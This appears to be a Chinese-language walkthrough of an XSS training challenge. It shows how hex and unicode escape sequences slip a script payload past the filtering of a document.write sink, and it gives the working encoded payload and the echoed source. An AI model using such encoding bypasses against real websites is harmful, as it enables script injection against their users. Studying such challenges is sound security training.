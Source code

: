 > 可以看到 > 被转义
>
> 但是存在传递，可以利用 dom 类型漏洞

构造 payload 

```
<script>alert(document.domain);</script>
```

对 <进行 hex 编码

```
\x3c
```

提交 `\\x3c`

> 第一个 \ 是将第二个 \ 转义，避免第二个 \ 转后面的内容

```
<script>document.write("\\x3c");</script>\x3c
```

> 执行后第二个回显源码为 `\<`
>
> 可以判断是在 `\\3c` 前加了 `\\` 变为 `\\\\3c`

对 payload 进行 unicode 编码

```
\\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
```

提交 payload，查看回显源码

```
<script>document.write("\u003cscript\u003ealert(document.domain);\u003c/script\u003e");</script><script>alert(document.domain);</script>
```

> 成功注入

---

Refrences

- [XSS%20Challenges](https://xss-quiz.int21h.jp/)
